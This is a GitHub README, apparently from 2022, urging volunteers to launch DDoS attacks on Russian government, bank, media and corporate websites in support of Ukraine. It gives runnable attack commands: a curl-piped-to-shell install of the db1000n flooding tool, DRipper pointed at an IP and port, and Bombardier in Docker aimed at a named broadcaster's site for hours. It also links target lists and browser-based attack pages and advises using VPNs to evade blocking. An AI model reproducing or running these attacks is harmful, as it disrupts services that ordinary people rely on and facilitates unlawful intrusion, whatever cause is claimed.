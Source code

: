 # Save Ukraine 🇺🇦

Russia has vilely attacked Ukraine on the morning of February 24, bombing peaceful cities with millions of people.

I've tried to compose a list of DDoS tools to help win this war on the informational front.

Our goals:
- Disrupt Russian propaganda websites and gov services
- Force people in Russia to protest against violent government policy
- Win this war

Last but not least [Русский корабль — иди нахуй!](https://www.youtube.com/watch?v=LDrFVdms8yk)

## VPN software

It's better to secure yourself with a VPN service. It makes you more anonymous, and you can switch to a different IP if yours get blocked.

I'll list here only ones that [have shown](https://macpaw.com/news/macpaw-amidst-aggression) support to Ukraine and provided temporary free access.

Ideally, choose a Russian IP, so you have fewer chances to be blocked.

### ClearVPN

1. Sign up on the website
2. Click on "Redeem a promocode"
3. Enter coupon code "SAVEUKRAINE"
4. Download the desktop app
5. Once installed, go back to the website and click "Auto-login"

### F-Secure FREEDOME VPN

1. Register using [this link](https://t.co/TekcNPxW9p) (copied from [here](https://twitter.com/fsecure/status/1497248407303462960))
2. Fill out your details and choose "Ukraine" as a country
3. Copy activation code
4. Download "F-Secure FREEDOME VPN" from [here](https://www.f-secure.com/en/home/download#freedome)
5. Once downloaded, go to "Subscriptions" -> "Activate subscription" and enter your license code

## List of targets

- [Banks and financial services](./targets/banks.txt)
- [Media propaganda resources](./targets/media.txt) 
- [Governmental and state resources](./targets/state.txt)
- [Business corporations](./targets/corporations.txt)
- [Other unsorted](./targets/unsorted.txt) (feel free to contribute)

## Checking availability

You can check the availability of target resources using these websites:

- https://check-host.net/check-ping
- https://ddosmonitor.herokuapp.com

## DDoS Tools

### [DB1000N](https://github.com/Arriven/db1000n)

**Shell-way (simplest)**

1. Run `curl https://raw.githubusercontent.com/Arriven/db1000n/main/install.sh | sh`
2. Run `./db1000n`

> See docs for other installation options.

### [DRipper](https://github.com/palahsu/DDoS-Ripper)

1. [Install python3](https://www.python.org/downloads/)
2. Run `git clone https://github.com/palahsu/DDoS-Ripper`
3. Run `python3 DRipper.py -s {IP} -p {PORT} -t 135` and put an IP that you want to attack

### [Bombardier](https://github.com/codesenberg/bombardier) (Docker)

**Installation (the simplest way)**

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal

**Single-target attack**

1. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 9600s -l https://www.1tv.com/` (change URL to the one you want to attack)

> See [Bombardier docs](https://github.com/codesenberg/bombardier) for more options

**Multi-target attack**

1. Download `bombardier.sh`
2. Run `sudo chmod +x bombardier.sh`
3. Run `./bombardier.sh` to attack all targets
4. Run `./bombardier.sh banks` to attack specific category targets (see [targets](./targets))

## Browser-based DDoS

This approach doesn't require any technical knowledge, simply open the website and follow instructions.

- https://attack-ui.vercel.app/attack/ddos/start ([instructions](https://destiny-jumbo-8c6.notion.site/Attack-UI-5aebc8eaedcc47448b6d79fc4243d141))
- https://nowarukraine.online/
- https://vug.pl/takeRussiaDown.html
- https://cyber-yozh.com/
- https://playforukraine.live/

## Support Ukraine with a donation

Please support Ukraine to win this war. Every cent matters.

These are verified and government-supported funding websites:

1. https://uahelp.monobank.ua/
2. https://bank.gov.ua/en/news/all/natsionalniy-bank-vidkriv-spetsrahunok-dlya-zboru-koshtiv-na-potrebi-armiyi
3. https://putler.io/

You can also support with crypto ([source](https://t.me/zedigital/1107)):
- BTC: `357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P` ([see balance](https://www.blockchain.com/btc/address/357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P))
- ETH: `0x165CD37b4C644C2921454429E7F9358d18A45e14` ([see balance](https://etherscan.io/address/0x165CD37b4C644C2921454429E7F9358d18A45e14))
- USDT (TRC20): `TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy` ([see balance](https://usdt.tokenview.com/en/address/TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy))

## Join our IT army

1. [Official IT army Telegram channel](https://t.me/itarmyofukraine2022)
2. [Report vulnerabilities](http://t.me/stop_russian_war_bot) on Russian resources anonymously

## Any suggestions?

If you have something to add to the list, please submit a PR or write to comradefuckz@protonmail.com. 
